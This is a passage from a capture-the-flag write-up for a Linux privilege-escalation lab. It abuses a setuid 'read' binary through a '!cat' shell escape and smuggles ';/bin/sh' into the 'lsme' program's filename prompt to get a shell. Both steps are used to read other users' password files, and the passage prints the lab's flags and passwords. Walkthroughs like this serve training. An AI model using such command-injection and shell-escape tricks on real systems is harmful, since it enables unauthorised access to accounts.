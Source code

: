 ### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root   alala  4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 alala  alala   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alala  alala  3.5K Jan 25 00:37 .bashrc
-rw-r--r-- 1 alala  alala   807 Apr 23  2023 .profile
-r--r----- 1 althea althea   21 Jul 26  2023 althea_pass.txt
-rw-r----- 1 root   alala    22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   alala   164 Jul 26  2023 mission.txt
-rwS--s--- 1 root   alala   16K Jul 26  2023 read
```

```shell title="Exploit it"
./read
# 进入后输入以下命令
!cat althea_pass.txt
# ObxEmwisYjERrDfvSbdA
```

## User - althea

### flag - 03

```plaintext
^btDtPAPzSiXmoHItpqX^
```

### 任务目标

```plaintext title="mission.txt"
The user andromeda has left us a program to list directories.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root      althea    4.0K Jan 31 19:46 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 althea    althea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 althea    althea    3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 althea    althea     807 Apr 23  2023 .profile
-r--r----- 1 andromeda andromeda   21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea      22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea     16K Jul 26  2023 lsme
-rw-r----- 1 root      althea     205 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
andromeda@hades:~$ ./lsme
Enter file to check:
;/bin/sh
total 28
-r--r----- 1 andromeda andromeda    21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea    16216 Jul 26  2023 lsme
-rw-r----- 1 root      althea      205 Jul 26  2023 mission.txt
$ cat /pwned/althea/andromeda_pass.txt
OTWGTbHzrxhYFSTlKcOt
```
